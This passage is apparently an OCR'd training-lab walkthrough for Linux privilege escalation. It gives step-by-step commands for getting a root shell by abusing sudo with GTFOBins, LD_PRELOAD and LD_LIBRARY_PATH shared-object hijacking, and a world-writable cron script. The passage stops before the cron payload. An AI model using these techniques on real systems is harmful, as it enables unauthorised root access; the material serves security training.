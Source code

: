 Choose a program from the list and try to gain a root shell, using the instructions from GTFOBins.

For an extra challenge, try to gain a root shell using all the programs on the list

### sudo enviromnet variables
Check which environment variables are inherited (look for the env_keep options):

sudo -l

LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

Create a shared object using the code located at /home/user/tools/sudo/preload.c:

gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c

Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object:

sudo LD_PRELOAD=/tmp/preload.so program-name-here

A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.

Run ldd against the apache2 program file to see which shared libraries are used by the program:

ldd /usr/sbin/apache2

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library_path.c:

gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c

Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):

sudo LD_LIBRARY_PATH=/tmp apache2

A root shell should spawn. Exit out of the shell. Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the library_path.c code could be changed to make it work.

### cron jobs - file permission 
View the contents of the system-wide crontab:

cat /etc/crontab

There should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.

Locate the full path of the overwrite.sh file:

locate overwrite.sh

Note that the file is world-writable:

ls -l /usr/local/bin/overwrite.sh

Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.

